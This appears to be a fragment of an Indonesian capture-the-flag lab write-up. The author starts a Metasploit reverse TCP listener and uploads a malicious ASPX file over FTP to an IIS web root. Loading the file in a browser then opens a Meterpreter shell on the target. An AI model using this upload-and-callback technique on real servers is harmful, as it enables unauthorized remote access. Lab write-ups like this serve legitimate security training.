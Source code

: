 ```bash


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.15:4444 
```

selanjutnya saya mengupload file aspx yang telah dibuat tadi menggunakan ftp

```bash
ftp> put halah.aspx 
local: halah.aspx remote: halah.aspx
229 Entering Extended Passive Mode (|||49171|)
150 Opening ASCII mode data connection.
100% |*********************| 2903 28.25 MiB/s --:-- ETA
226 Transfer complete.
2903 bytes sent in 00:00 (14.37 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49172|)
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> aspnet_client
10-14-22 03:04AM 2903 halah.aspx
03-17-17 05:37PM 689 iisstart.htm
10-14-22 02:37AM <DIR> IJXWLJHLQP
10-14-22 03:03AM <DIR> LSRSWHVOZI
10-14-22 02:42AM <DIR> NGPQBPUQBP
10-14-22 02:41AM <DIR> QXWHDTRVPU
10-14-22 03:02AM <DIR> RYPCOZGWIS
10-14-22 02:44AM <DIR> SLKGVHRIWP
10-14-22 02:41AM <DIR> TNWEJUVKYW
10-14-22 02:52AM <DIR> VXCBCGBZWI
03-17-17 05:37PM 184946 welcome.png
```

file tersebut berhasil terupload sesuai expetasi, selanjutnya saya akan mengakses file tersebut melalui browser untuk mentrigger paylaod

![](/home/punktester/.config/marktext/images/2022-10-14-07-06-47-image.png)

```bash
[*] Sending stage (175174 bytes) to 10.129.136.185
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.136.185:49173 ) at 2022-10-14 07:06:31 -1000

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > 
```
